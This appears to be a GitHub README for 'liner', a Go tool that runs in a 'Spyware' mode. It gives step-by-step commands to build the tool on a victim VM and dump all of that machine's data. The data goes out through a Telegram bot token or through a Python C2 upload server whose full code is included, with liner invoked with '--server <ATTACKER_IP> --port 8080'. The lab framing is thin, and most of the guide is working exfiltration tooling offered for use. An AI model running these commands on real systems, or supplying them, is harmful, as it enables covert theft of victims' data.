 ## Liner Usage Guide for Data Exfiltration

This guide provides step-by-step instructions for using the liner tool in a lab environment to perform data exfiltration via Telegram or a custom server. The setup assumes the host machine as the attacker and a VirtualBox virtual machine (VM) as the victim.

---

### Prerequisites

Host Machine (Attacker): Ubuntu/Debian with Python 3 installed.  
Virtual Machine (Victim): Ubuntu/Debian with Go 1.24.5 installed.  
Network: VirtualBox VM set to NAT (default, with attacker IP 10.0.2.15) or Host-Only (e.g., 192.168.56.101).  
Telegram (optional): A Telegram bot token and chat ID for Telegram-based exfiltration.

---

### Setup Instructions

1. Install Go 1.24.5 on the Victim VM

Remove any existing Go installations:
```
sudo apt remove --purge golang golang-* go
sudo rm -rf /usr/lib/go* /usr/bin/go /usr/local/go ~/.go ~/go
```
Install Go 1.24.5:
```
wget https://go.dev/dl/go1.24.5.linux-amd64.tar.gz
sudo tar -C /usr/local -xzf go1.24.5.linux-amd64.tar.gz
```
Update ~/.bashrc:
```
nano ~/.bashrc
```
Add these lines at the end:
```
export PATH=/usr/local/go/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
export GOROOT=/usr/local/go
export GOPATH=$HOME/go
export PATH=$PATH:$GOPATH/bin
```
Apply changes:
```
source ~/.bashrc
```
Verify Go installation:
```
go version
```
Expected output: go version go1.24.5 linux/amd64.

---

2. Build Liner on the Victim VM

Navigate to the project directory:
```
cd ~/Desktop/liner
```
Initialize and tidy Go modules:
```
rm -rf go.mod go.sum
go mod init liner
go mod tidy
```
Build the tool:
```
go build -v -mod=mod -o liner ./cmd
sudo mv liner /usr/bin
sudo chmod +x /usr/bin/liner
```
---

### Exfiltration Modes

#### Option 1: Exfiltration via Telegram

Setup Telegram Bot:
- Create a Telegram bot using BotFather.
- Get bot token and chat ID.

Run Liner with Telegram:
```
sudo liner --mode Spyware --dump all --telegram --token <BOT_TOKEN> --id <CHAT_ID> --encryption no
```
Example:
```
sudo liner --mode Spyware --dump all --telegram --token 123456:ABC-DEF1234ghIkl-zyx57W2v1u123ew11 --id 123456789 --encryption no
```
###### Check your Telegram chat for received data.

---

#### Option 2: Exfiltration via Custom Server

Setup Python Server on Attacker (Host Machine):
```
mkdir ~/c2
cd ~/c2
```
Create c2_server.py:
```python
import http.server
import socketserver
import os

PORT = 8080
UPLOAD_DIR = "uploads"

if not os.path.exists(UPLOAD_DIR):
    os.makedirs(UPLOAD_DIR)

class UploadHandler(http.server.SimpleHTTPRequestHandler):
    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        body = self.rfile.read(content_length).decode('utf-8')
        if self.path == '/message':
            self.send_response(200)
            self.send_header('Content-type', 'text/plain')
            self.end_headers()
            self.wfile.write(b'Message received')
            with open(os.path.join(UPLOAD_DIR, f'part_{len(os.listdir(UPLOAD_DIR))}.txt'), 'w') as f:
                f.write(body)
        else:
            self.send_response(404)
            self.end_headers()

with socketserver.TCPServer(("", PORT), UploadHandler) as httpd:
    print(f"Serving at port {PORT}")
    httpd.serve_forever()
```

Run server:
```
python3 c2_server.py
```
Configure Network:
- NAT Mode (default): Test with curl
- Host-Only Mode: Switch VM, test connectivity

Allow port:
```
sudo ufw allow 8080
```
Run Liner with Server:
```
sudo liner --mode Spyware --dump all --server <ATTACKER_IP> --port 8080 --encryption no
```
Test Server Exfiltration:
```
ls ~/c2/uploads
cat part_* > liner_data.zip
unzip liner_data.zip
```
---

### Troubleshooting

Build Issues:
- Verify Go version: go version
- Rebuild if needed

Network Issues:
- Ensure server is running
- Test with curl
- Switch to Host-Only if NAT fails

Telegram Issues:
- Verify bot token & chat ID
- Ensure chat is active

Flag Errors:
- Use -- not - for flags

---

### Example Workflow

Attacker (Host):
```
cd ~/c2 && python3 c2_server.py
curl -X POST -d "message=test" http://127.0.0.1:8080/message
```
Victim (VM):
```
cd ~/Desktop/liner && go build -v -mod=mod -o liner ./cmd
sudo liner --mode Spyware --dump all --server 10.0.2.15 --port 8080 --encryption no
```
Verify:
```
ls ~/c2/uploads
cat part_* > liner_data.zip && unzip liner_data.zip
```
For Telegram:
```
sudo liner --mode Spyware --dump all --telegram --token <BOT_TOKEN> --id <CHAT_ID> --encryption no
```
Check Telegram chat for data.
